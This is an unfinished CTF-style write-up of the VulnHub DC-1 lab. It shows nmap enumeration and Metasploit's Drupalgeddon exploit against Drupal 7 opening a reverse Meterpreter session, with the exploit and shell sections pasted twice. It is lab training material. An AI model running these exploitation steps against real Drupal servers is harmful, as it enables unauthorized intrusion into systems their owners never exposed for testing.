


# VulnHub – DC-1 (Linux, Easy) (WIP)

⚠️ Work in Progress – This writeup is being updated step by step.

## Table of Contents
- [General Info](#general-info)
- [Objectives](#objectives)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Initial Shell](#initial-shell)
- [Privilege Escalation](#privilege-escalation)
- [Post-Exploitation Proof](#post-exploitation-proof)
- [Cleanup](#cleanup)
- [Key Takeaways](#key-takeaways)

## General Info
- **Machine name:** DC-1  
- **Platform:** VulnHub  
- **Author:** DCAU  
- **Release year:** 2015  
- **Difficulty:** Easy  
- **Type:** Boot2Root (goal: root access)  

## Objectives
- Gain initial foothold through the web application  
- Escalate privileges to root  
- Practice CMS exploitation (Drupal) and privilege escalation techniques  

## Enumeration
The target machine was identified in the NAT network.

**Network discovery**  
```bash
sudo netdiscover -r 192.168.25.0/24
```
Discovered host: 192.168.25.148

Nmap scan

```bash
sudo nmap -sC -sV 192.168.25.148
```
Open ports:

22/tcp – OpenSSH 6.0p1 Debian 4+deb7u7

80/tcp – Apache 2.2.22 (Debian), running Drupal 7

111/tcp – rpcbind 2-4```

Initial observation:
The Drupal CMS on port 80 appears to be the main attack surface. The robots.txt file reveals multiple standard Drupal directories and files (e.g., /CHANGELOG.txt, /install.php), which may expose the exact version.



_The scan reveals SSH (22), HTTP (Drupal, port 80), and RPCBind (111) as the main exposed services._

## Exploitation

`CHANGELOG.txt` was not accessible (404), so version was unknown beyond **Drupal 7**.  
Tried **drupal_drupalgeddon2** (`check` inconclusive), then fell back to the older **Drupalgeddon (2014)** module.

**Metasploit**
```
msfconsole
search drupal
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.25.148
set TARGETURI /
set LHOST 192.168.25.128
set TARGET 0
run

```
Result: a meterpreter session opened successfully.
## Initial Shell

Validated context and dropped to a shell from meterpreter.

```
meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : DC-1
OS          : Linux DC-1 3.2.0-6-486 #1 Debian 3.2.102-1 i686
Meterpreter : php/linux
meterpreter > shell
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/var/www

```

Low-priv shell as `www-data` obtained via Drupalgeddon (2014).
## Exploitation

`CHANGELOG.txt` was not accessible (404), so the exact version of Drupal was unknown.  
We first tried **drupalgeddon2** (`check` was inconclusive), then fell back to the older **Drupalgeddon (2014)** module, which worked.

**Metasploit exploit:**
```bash
msfconsole
search drupal
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.25.148
set TARGETURI /
set LHOST 192.168.25.128
set TARGET 0
run
```

Result: a Meterpreter session was successfully opened.
## Initial Shell

Validated the session and dropped into a shell.

meterpreter > getuid
Server username: www-data

meterpreter > sysinfo
Computer    : DC-1
OS          : Linux DC-1 3.2.0-6-486 #1 Debian 3.2.102-1 i686
Meterpreter : php/linux

meterpreter > shell
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/var/www

Low-privileged shell as **www-data** obtained via Drupalgeddon (2014).


*Low-priv shell as `www-data` obtained via Drupalgeddon (2014).*
